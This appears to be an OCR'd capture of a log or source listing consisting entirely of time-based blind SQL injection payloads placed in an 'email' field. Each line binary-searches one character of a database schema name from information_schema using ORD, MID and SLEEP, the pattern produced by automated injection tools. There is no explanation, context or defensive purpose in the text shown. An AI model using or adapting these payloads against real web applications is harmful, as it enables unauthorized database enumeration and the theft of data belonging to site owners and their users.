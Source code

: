 {email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,11,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=101,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,12,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,12,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,12,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,12,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,12,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=80,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,12,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>80,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,12,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=88,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,12,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>88,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,12,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=92,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,12,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>92,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,12,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=94,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,12,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>94,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,12,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=95,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,13,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,13,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,13,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,13,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,13,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,13,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,13,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=120,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,13,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>120,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,13,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=116,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,13,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>116,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,13,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=114,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,13,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>114,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,13,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=115,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,14,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,14,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,14,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,14,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,14,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=112,SLEEP(0.122010510204),SLEEP(0)) -- -}